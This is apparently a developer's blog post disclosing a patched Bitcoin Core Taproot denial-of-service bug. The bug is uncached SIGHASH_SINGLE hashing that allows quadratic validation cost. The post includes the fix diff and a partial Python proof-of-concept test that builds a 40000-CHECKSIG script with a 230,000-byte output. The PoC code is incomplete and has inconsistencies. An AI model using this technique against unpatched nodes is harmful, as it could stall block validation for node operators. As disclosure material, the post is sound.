 ```yaml
---
comments: True
disqusId: aa78185d8bdb0035bb9761f38e6c746d80f0e925 
layout: post
title: "Taproot Denial of Service Bug"
date: 2025-03-11
---
```


TL;DR: Taproot's sighash implementation could cause blocks to take 60s or more to validate with specially crafted standard transactions. The patch adds a new cache during validation.

| | |
| -- | -- |
| patch: | https://github.com/bitcoin/bitcoin/pull/24105 |
| Patched: | 24.x, 23.x. |
| Unpatched: | 22.x |

I discovered this vulnerability while addressing feedback on BIP-119 (CTV) regarding its denial of service risk mitigations.

During the comparison of BIPs' text on DoS mitigations, I identified this vulnerability in the core's Taproot implementation, made a proof of concept exploit, and patched it.

Special thanks to the reviewers and security maintainers of Bitcoin Core for assisting in resolving this issue.


Exploit Explanation & Fix
======

The below code fragment is the core of the fix.

Before the patch, the `sha_single_output` is computed on the fly during script evaluation, potentially. Because it is not cached, it could potentially get re-hashed multiple times.

After the patch, it is cached after the first evaluation (Cache on First Use).

```diff
diff --git a/src/script/interpreter.cpp b/src/script/interpreter.cpp
index 95ffe40a74..07b44971b7 100644
--- a/src/script/interpreter.cpp
+++ b/src/script/interpreter.cpp
@@ -1568,9 +1568,12 @@ bool SignatureHashSchnorr(uint256& hash_out, const ScriptExecutionData& execdata
     // Data about the output (if only one).
     if (output_type == SIGHASH_SINGLE) {
         if (in_pos >= tx_to.vout.size()) return false;
-        CHashWriter sha_single_output(SER_GETHASH, 0);
-        sha_single_output << tx_to.vout[in_pos];
-        ss << sha_single_output.GetSHA256();
+        if (!execdata.m_output_hash) {
+            CHashWriter sha_single_output(SER_GETHASH, 0);
+            sha_single_output << tx_to.vout[in_pos];
+            execdata.m_output_hash = sha_single_output.GetSHA256();
+        }
+        ss << execdata.m_output_hash.value();
     }
```

What could go wrong? Well, suppose I have a transaction that calls CHECKSIG with SIGHASH_SINGLE N times, and the corresponding SIGHASH_SINGLE output is length M. We can trigger `O(M*N)` quadratic hashing.

The below code can be put into the feature_taproot test, along with a few other tweaks, to test this behavior. It makes a script with `40000` CHECKSIGS that each have to hash `230,000` bytes. I think this was the largest size / repetition count I could figure out, and it took about 60s on an M1 Mac to validate.

```python
def spenders_taproot_active():
    """Return a list of Spenders for testing post-Taproot activation behavior."""
    secs = [generate_privkey() for _ in range(8)]
    pubs = [compute_xonly_pubkey(sec)[0] for sec in secs]

    spenders = []
    # Expensive -- Pile up N CHECKSIGs, minding WU for 
    # sigops constraints
    N = 40000
    scripts = [("exp", CScript([b"0"*8, OP_DROP] + [b"0"*13, OP_DROP]*(N-11) + [OP_DUP, pubs[1], OP_CHECKSIGVERIFY]*(N-1) + [pubs[1], OP_CHECKSIG]))]
    tap = taproot_construct(pubs[0], scripts)
    add_spender(spenders, "exp", tap=tap, leaf="exp", standard=False, hashtype=SIGHASH_SINGLE, key=secs[1], **SINGLE_SIG, failure=None)
    return spenders


def big_output(tx):
    # Add 1 Big Output with 0 bytes
    tx.vout.append(CTxOut())
    tx.vout[-1].nValue = in_value
    in_value -= tx.vout[-1].nValue
    tx.vout[-1].scriptPubKey = CScript([b"0"]*230000)
    return tx
    
```

There are variants of this attack that can rely on standard transactions as well, but the caching should eliminate all potential concern with SIGHASH_SINGLE.